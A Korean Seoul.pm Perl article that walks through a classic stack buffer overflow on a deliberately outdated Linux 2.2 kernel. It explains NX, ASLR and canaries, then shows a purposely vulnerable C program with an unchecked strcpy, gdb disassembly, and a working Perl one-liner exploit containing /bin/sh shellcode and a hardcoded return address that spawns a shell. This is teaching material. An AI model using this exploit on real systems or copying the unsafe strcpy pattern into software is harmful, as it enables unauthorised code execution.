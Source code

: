 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
---------

2014년에 들어오면서 리눅스 환경에서의 굵직한 취약점이 발표되었습니다.
[Bash 쉘 쇼크][wiki-shellshock]라던가 [OpenSSL Heartbleed][wiki-heartbleed] 말이죠.
이번 기사에서 다룰 내용은 나열한 취약점과는 거리가 있지만,
리눅스 환경에서의 해킹을 조금이라도 맛 볼겸(?)
메모리 버그의 일종인 [버퍼 오버플로우(BOF, Buffer Overflow)][wiki-bof]를
이용한 해킹 기법을 살펴보겠습니다.


배경 지식
----------

우선 공격할 리눅스 정보를 살펴볼까요?

    #!bash
    $uname -a
    Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

후아! 고대의 유물과 같은 버전이군요.
커널의 버전이 매우 낮다는 것을 알 수 있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신의 리눅스 커널은 해커들의 공격을 막기위해 많은 보호 기법을 도입하고 있습니다.

이러한 보호 기법으로는
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록 하는 [NX-bit][wiki-nx-bit],
메모리상의 공격을 방어하기위해 스택 주소를 무작위로 바꾸는 [ASLR][wiki-aslr],
상위주소를 `\x00` 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 [ASCII armor][wiki-binary-to-text-encoding]
버퍼와 반환 주소 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 [canary][wiki-canary] 등이 있습니다.
[canary][wiki-canary]의 경우 해킹에 성공하려면 `eip`를 제어해야하는데,
이를 위해 반환 주소를 덮어써야 합니다.
하지만 canary 보호 기법이 반환 주소를 모니터링하면서, 값이 변하면 프로그램을 종료시켜 버리므로
한번에 공격할수있는 확률이 줄어들어 공격 난이도가 올라갑니다.

이처럼 다양한 보호기법이 적용되면서 예전의 방법으로 공격하기는 힘들지만,
[ROP(Return-oriented Programming)][wiki-rop]와 같은 공격 기법등 여전히 우회하는 방법은 있습니다.
이런 무지막지한 보호 기법을 우회하려는 방법인 만큼 매우 복잡하겠죠?
더 자세한 내용이 궁금하다면 [ROP(Return Oriented Programming) Exploit][home-teamcrak-rop] 문서를 참고하세요.


공격!!
-------

지금부터 메모리 보호기법을 적용하지않은 (고대의?) 리눅스 커널을 대상으로 간단한 해킹을 해보죠.

다음은 공격할 프로그램의 전체 코드입니다.

    #!cpp
    //vuln.c
    //gcc -o vuln vuln.c
    #include <stdio.h>
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
    
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    
        return 0;
    }

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는
말이 있을정도로 프로그램의 구조를 완벽하게 이해하고 있어야합니다.
이제 분석을 하기위해 `gdb`를 실행합니다.

    #!bash
    $gdb vuln
    
    (gdb) disass main
    Dump of assembler code for function main:
    0x80483f8 <main>:	push   %ebp
    0x80483f9 <main+1>:	mov    %esp,%ebp
    0x80483fb <main+3>:	sub    $0x100,%esp
    0x8048401 <main+9>:	mov    0xc(%ebp),%eax
    0x8048404 <main+12>:	add    $0x4,%eax
    0x8048407 <main+15>:	mov    (%eax),%edx
    0x8048409 <main+17>:	push   %edx
    0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
    0x8048410 <main+24>:	push   %eax
    0x8048411 <main+25>:	call   0x8048340 <strcpy>
    0x8048416 <main+30>:	add    $0x8,%esp
    0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
    0x804841f <main+39>:	push   %eax
    0x8048420 <main+40>:	push   $0x8048480
    0x8048425 <main+45>:	call   0x8048330 <printf>
    0x804842a <main+50>:	add    $0x8,%esp
    0x804842d <main+53>:	leave  
    0x804842e <main+54>:	ret    
    0x804842f <main+55>:	nop    
    End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드입니다.
유심히 살펴봐야 할 부분은 `strcpy`함수를 호출하는 부분입니다.

    #!plain
    0x8048411 <main+25>:	call   0x8048340 <strcpy>

간단하게 `strcpy` 함수에 대해 좀 더 알아보죠.

    #!cpp
    strcpy(buffer, argv[1]);

앞의 코드는 `argv[1]`의 값을 버퍼에 복사합니다.
요약하면 `eax`에는 `buffer`의 값 256 바이트,
`edx`에는 `argv[1]`의 값이 들어가 있습니다.

어셈블리 코드를 보면 `edx` 값을 넣고, 그 후 `eax(buffer)`를 스택에 넣으므로,
결국 `strcpy(%eax,%edx);`처럼 들어있는 셈입니다.
과연 생각한 것이 맞는지 `gdb`를 사용해서 확인해보겠습니다.

    #!bash
    (gdb) b *main+25
    (gdb) r 1
    Starting program: /home/vuln 1
    
    Breakpoint 1, 0x8048411 in main ()
    (gdb) x/s $edx
    0xbffffca0:	 "1"

우선 `main+25` 지점에 브레이크 포인트를 겁니다.
그 후 인자로 `1`을 주고 실행하면 `edx`에는 예상한대로 `1`이라는 값이 들어가 있습니다.

이제 `0xffffff00`이 뭘 뜻하는지 알아야합니다.
16진수를 10진수로 바꾸면 `256`이라는 값이 나옵니다.
256 바이트를 `buffer`가 사용하고 있으니, `ret` 주소는 `256 + 4`입니다.

자! 이제 펄 스크립트를 사용해 공격해보죠!

    #!perl
    $./vuln `perl -e 'print"A"x260'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation fault (core dumped)

`ret`값을 덮어쓰면서 공격하니 세그멘테이션 폴트 오류와 함께 강제 종료됩니다.
이제 익스플로잇 코드를 작성하면 끝입니다.

    #!perl
    $./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
    1?h//shh/bin??°
                    ?8
    bash$

와우! 공격에 성공했습니다 ;)

`\x90`은 `nop`이며 그냥 아무 것도 하지않고 다음 명령어로 넘어갑니다.
`\x31\xc0\x50...\x0b\xcd\x80` 부분은 쉘 코드입니다.
간단하게 쉘을 출력해주는 기계어 집합입니다.
`\x38\xf9\xff\xbf` 부분은 스택의 값으로 `gdb`를 통해서 살펴 본 스택 주소입니다.


정리하며
---------

펄은 시스템 관리와 프로그램 작성에 널리 사용되는 언어일 뿐만 아니라
앞에서 보았듯이 목적(지금은 익스플로잇 작성? :)에 쉽게 도달할 수 있게
도와주는 강력한 도구입니다.
이런 펄의 유연함과 강력함이 많은 해커들을 매료시키지 않았을까요?
조금은 에둘러 왔지만, 단지 시스템 관리자와 프로그래머만이
펄을 사용하는 것이 아니란 사실 잊지마세요. ;-)

아! 그리고 읽어주셔서 감사합니다!! :D


[home-teamcrak-rop]:                http://teamcrak.tistory.com/332
[wiki-aslr]:                        http://en.wikipedia.org/wiki/Address_space_layout_randomization
[wiki-binary-to-text-encoding]:     http://en.wikipedia.org/wiki/Binary-to-text_encoding
[wiki-bof]:                         http://en.wikipedia.org/wiki/Buffer_overflow
[wiki-canary]:                      http://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
[wiki-heartbleed]:                  http://en.wikipedia.org/wiki/Heartbleed
[wiki-nx-bit]:                      http://en.wikipedia.org/wiki/NX_bit
[wiki-rop]:                         http://en.wikipedia.org/wiki/Return-oriented_programming
[wiki-shellshock]:                  http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29
